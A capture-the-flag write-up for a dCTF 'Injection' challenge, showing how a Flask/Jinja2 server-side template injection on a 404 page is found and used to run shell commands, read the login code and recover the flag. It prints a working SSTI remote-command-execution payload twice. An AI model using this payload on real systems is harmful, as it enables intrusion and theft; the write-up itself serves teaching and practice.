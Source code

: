 # Injection

http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/

![Pasted image 20210516170501](https://user-images.githubusercontent.com/70921512/118423622-d387a380-b69b-11eb-95e3-50008df586c3.png)

There is an admin login with the parameters "User", "Password" and a hidden "Submit".

Inputting anything into these won't work, and we'll be redirected to `/login` where we get the message:

`Oops! Page login doesn't exist :(`

I really didn't know how to work this one out. I tried looking at the robots.txt, other known directories, the root directory where the image is stored, but nothing.

Eventually, I figured the website was responding to anything that I was throwing at it through the 404 response page, even xss:

![Pasted image 20210516170833](https://user-images.githubusercontent.com/70921512/118423632-da161b00-b69b-11eb-9827-b4165a4be012.png)

But eh, couldn't figure it out for a while. I initially thought it was SQLi, and was put off by it because I know barely any SQLi.

After googling a bit more I found some CTF writeups that had something similar, and eventually landed on the `SSTI` keyword...

Stupidly enough I had already read about SSTIs prior to this, but I couldn't make the connection earlier.

# Solution
So we try:
`http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/{{1+1}}` 
and we get

`Oops! Page 2 doesn't exist :(`

Nice.

`{{config}}` gives us a bunch of data, among it:

` 'MESSAGE': 'You are getting closer!`

After that it becomes trivial, and we just have to find a way to get terminal access. We eventually land on:

`{{''.__class__.__mro__[1].__subclasses__()[414]('COMMAND',shell=True,stdout=-1).communicate()}}` << where COMMAND is our command.

Running `ls`:
`app.py
lib
static
templates`

Running `ls lib`:
`security.py`

Running `cat lib/security.py`

`import base64


def validate_login(username, password):
 if username != 'admin':
 return False
 valid_password = 'QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ'
 return base64.b64encode(password.encode('ascii')).decode('ascii')[::-1].lstrip('=') == valid_password`
 
 So we just get the password encoded in a backwards b64, just flip it and decode it:
 
```
base64.b64decode(password[::-1]+"==")
b'dctf{4ll_us3r_1nput_1s_3v1l}'
```

And we get the flag :D

# Notes:

Sometimes, the environment will be vary a lot. Most of the payloads I tried that I found online wouldn't work, so I had to craft my own. To make it, I used this medium article that was AMAZING:

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


#----------
`{{''.__class__.__mro__[1].__subclasses__()[414]('COMMAND',shell=True,stdout=-1).communicate()}}`
